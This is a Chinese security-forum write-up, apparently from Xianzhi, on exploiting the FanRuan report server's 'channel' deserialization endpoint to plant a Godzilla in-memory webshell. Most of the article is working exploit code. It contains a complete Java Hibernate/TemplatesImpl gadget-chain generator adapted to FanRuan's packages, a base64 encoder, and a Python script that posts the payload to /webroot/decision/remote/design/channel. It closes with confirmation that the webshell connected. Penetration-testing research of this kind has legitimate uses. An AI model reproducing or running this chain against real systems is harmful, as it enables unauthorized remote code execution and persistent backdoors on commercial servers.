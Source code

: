 

# 帆软 channel 反序列化注入哥斯拉内存马 - 先知社区

帆软 channel 反序列化注入哥斯拉内存马

- - -

## 前言

在之前某次攻防演练中发现帆软 channel 反序列化漏洞，但是存在 360，没能拿到 shell，所以研究了一下帆软注入内存马。

## 生成内存马字节码文件

使用[Java Memshell Generator 工具](https://github.com/pen4uin/java-memshell-generator-release)生成 Tomcat Filter 类型的内存马字节码文件。

[![](assets/1702520954-315664187fdfdc360ffe4767a8188678.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141549-0f8266c2-997f-1.png)

用 IDEA 打开生成的.class 文件，然后将其代码复制到.java 文件中。继承一下`AbstractTranslet`（因为使用 TemplatesImpl 类利用）。再简单分析一下几个参数，`getBase64String`方法返回的是实现哥斯拉 webshell 的类，`getUrlPattern`返回的内容是 Filter 的有效路径，`getClassName`返回的应该是注入器类名，对比上图内存马类名和注入器类名，作者好像写反了。这里就不对内存马注入的原理进行研究了，直接开始生成 exp。

[![](assets/1702520954-5a789422708d8b9a4bce4c251eccd4c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141618-2093120e-997f-1.png)

## 反序列化利用 exp 生成

使用 hibernate1 反序列化利用链生成 exp，因为帆软的包和正常 hibernate 利用链的包名有所区别，所以需要引入帆软的依赖生成 exp。

我引入了以下两个 jar 包（实际上只需要引用 fine-third-10,0.jar 这个即可）。

[![](assets/1702520954-fa750bf3d248af6981c31033a215f8a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141628-26ef2854-997f-1.png)

使用 javassist 获取利用类的字节码。

[![](assets/1702520954-5e61c6ba4239fc4cf517f7bea15bc9b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141637-2c46afca-997f-1.png)

生成 exp 代码：

```plain
import com.fr.third.org.hibernate.engine.spi.TypedValue;
import com.fr.third.org.hibernate.type.ComponentType;
import com.nqzero.permit.Permit;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.reflect.ReflectionFactory;
import util.SerialUtil;

import java.io.FileOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.zip.GZIPOutputStream;

public class hibernateFR {
    public static void main(String[] args) throws Exception {
        byte[] code = SerialUtil.getBytecodes();
        TemplatesImpl obj = new TemplatesImpl();
        SerialUtil.setFieldValue(obj, "_bytecodes", new byte[][] {code});
        SerialUtil.setFieldValue(obj, "_name", "test");
        SerialUtil.setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Class clazz = Class.forName("com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer");
        Constructor constructor = Object.class.getDeclaredConstructor();
        Permit.setAccessible(constructor);
        Constructor pojoct = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz, constructor);
        Permit.setAccessible(pojoct);
        Object pojoCT = pojoct.newInstance();

        Class clazz1 = Class.forName("com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer");
        Class clazz4 = Class.forName("com.fr.third.org.hibernate.property.access.spi.GetterMethodImpl");
        Constructor constructor4 = clazz4.getDeclaredConstructor(Class.class, String.class, Method.class);
        Object getter = constructor4.newInstance(obj.getClass(), "outputProperties", obj.getClass().getMethod("getOutputProperties"));
        Object getters = Array.newInstance(getter.getClass(), 1);
        Array.set(getters, 0, getter);
        Field f = clazz1.getDeclaredField("getters");
        f.setAccessible(true);
        f.set(pojoCT, getters);

        Class clazz3 = Class.forName("com.fr.third.org.hibernate.type.ComponentType");
        Constructor constructor2 = Object.class.getDeclaredConstructor();
        Permit.setAccessible(constructor2);
        Constructor constructor3 = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz3, constructor2);
        ComponentType componentType = (ComponentType) constructor3.newInstance();
        TypedValue typedValue = new TypedValue(componentType, null);
        SerialUtil.setFieldValue(componentType, "componentTuplizer", pojoCT);

        SerialUtil.setFieldValue(componentType, "propertySpan", 1);

        HashMap<Object, String> map = new HashMap<>();
        map.put(typedValue, "1jzz");
        //Object template = Gadgets.createTemplatesImpl("TomcatEcho");
        SerialUtil.setFieldValue(typedValue, "value", obj);


        //SerialUtil.unserial(SerialUtil.serial(map));
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(new FileOutputStream("生成exp的文件路径"));
        byte[] data = SerialUtil.serial(map).toByteArray();
        gzipOutputStream.write(data);
        gzipOutputStream.close();
    }
}
```

读取生成的序列化文件，并进行 base64 编码，得到利用 payload，由于太长了，这里我就不放上来了。

```plain
def encode_ser():
    with open("shell", "rb") as f:
        binary = f.read()
        data = base64.b64encode(binary)
        print(data)

if __name__ == '__main__':
    encode_ser()
```

使用脚本利用：

```plain
import base64
import requests

def cmd():
    proxies = {
        'http': 'http://127.0.0.1:8081',
        'https': 'http://127.0.0.1:8081'}

    try:

        burp0_url = "http://localhost:8080/webroot/decision/remote/design/channel"
        burp0_headers = {"Content-Type": "application/x-www-form-urlencoded"}

        b = b"生成payload字节码的base64编码"

        burp0_data = base64.b64decode(b)

        res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=3, proxies=proxies)
    except Exception as e:
        print(e)


if __name__ == "__main__":
    cmd();
```

[![](assets/1702520954-c51ceee3992e6ad4bf18db2194a76926.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141707-3e2fcc76-997f-1.png)

连接内存马成功：

[![](assets/1702520954-b925596ecbb9ad8070398c4a2e0715f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141716-43852e96-997f-1.png)

# 参考

[https://github.com/pen4uin/java-memshell-generator-release](https://github.com/pen4uin/java-memshell-generator-release)
